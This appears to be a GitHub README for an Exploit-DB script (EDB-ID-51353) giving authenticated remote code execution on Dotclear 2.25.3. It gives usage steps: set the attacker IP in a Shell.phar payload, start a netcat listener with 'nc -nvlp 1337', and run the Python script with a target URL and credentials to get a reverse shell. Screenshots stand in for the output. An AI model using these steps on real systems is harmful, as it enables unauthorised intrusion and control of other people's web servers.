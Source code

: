 # EDB-ID-51353
dotclear 2.25.3 - Remote Code Execution (RCE) (Authenticated)

Change Your Ip in Shell.phar file 

Usages:

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

Steps: For getting Shell

```nc -nvlp 1337```

![image](https://user-images.githubusercontent.com/25599963/235438008-4f8d3a4d-1779-47be-838b-647f3969d713.png)

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

![image](https://user-images.githubusercontent.com/25599963/235438235-fd6057da-d1fd-44b7-9b4e-f083d5910782.png)


https://www.exploit-db.com/exploits/51353

